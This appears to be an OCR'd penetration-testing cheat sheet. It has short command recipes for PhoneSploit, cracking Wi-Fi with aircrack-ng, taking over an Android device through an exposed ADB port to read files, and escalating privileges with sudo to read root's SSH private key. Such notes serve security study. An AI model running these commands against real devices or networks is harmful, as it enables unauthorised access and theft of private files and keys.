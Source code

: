 ### PhoeSploit
**To install Phonesploit**<br>
git clone https://github.com/aerosol-can/PhoneSploit<br>
cd PhoneSploit<br>
pip3 install colorama<br>
OR<br>
python3 -m pip install colorama<br>

**To run Phonesploit**<br>
python3 phonesploit.py<br>

Type 3 and Press Enter to Connect a new Phone OR Enter IP of Android Device<br>
Type 4, to Access Shell on phone<br>
Download File using PhoneSploit<br>
9. Pull Folders from Phone to PC<br>
Enter the Full Path of file to Download<br>
sdcard/Download/secret.txt

**Check Android App**<br>
www.sisik.eu/apk-tool

## 9. Cracking Wi-Fi networks<br>
**Cracking Wifi Password**<br>
aircrack-ng [pcap file] (For cracking WEP network)<br>
aircrack-ng -a2 -b [Target BSSID] -w [password_Wordlist.txt] [WP2 PCAP file] (For cracking WPA2 or other networks through the captured .pcap file)<br>

Android<br>
1- nmap ip -sV -p 5555    (Scan for adb port)<br>
2- adb connect IP:5555    (Connect adb with parrot)<br>
3- adb shell              (Access mobile device on parrot)<br>
4- pwd --> ls --> cd sdcard --> ls --> cat secret.txt (If you can't find it there then go to Downloads folder using: cd downloads)<br>

SQLMap - for finding SQL Injection Vulnerabilities<br>
Wpscan - scanning and finding issues in wordpress websites<br>
ADB - for connecting Android devices to PC and binary analysis<br>
Burpsuite - for analysing and manipulating the traffic<br>

## 10. Privilege Escalation Basics
ssh <user_name>@<IP> -p [port]<br>

to check privileges<br>
sudo -l

if there is a user with no pass:<br>
sudo -u <user> /bib/bash<br>
cd \<br>
cd /root<br>
cd .ssh<br>
cat id_rsa<br>
copy the key<br>
